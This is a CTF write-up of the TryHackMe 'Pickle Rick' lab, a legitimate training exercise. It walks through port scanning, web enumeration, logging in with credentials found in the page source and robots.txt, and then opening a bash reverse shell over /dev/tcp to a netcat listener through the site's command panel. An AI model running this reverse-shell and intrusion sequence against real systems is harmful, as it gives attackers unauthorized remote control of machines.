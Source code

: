 ```yaml
---
title: TryHackMe - PickleRick
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, rustscan, privesc, http, ssh, command_injection]
---
```


# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).



# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  



## The site
![[Pasted image 20241028211551.png]]
From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code
![[Pasted image 20241028211605.png]]

Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt
![[Pasted image 20241028211616.png]]

Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt
![[Pasted image 20241028211627.png]]


## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```
![[Pasted image 20241028211720.png]]

At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  
![[Pasted image 20241028211738.png]]


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!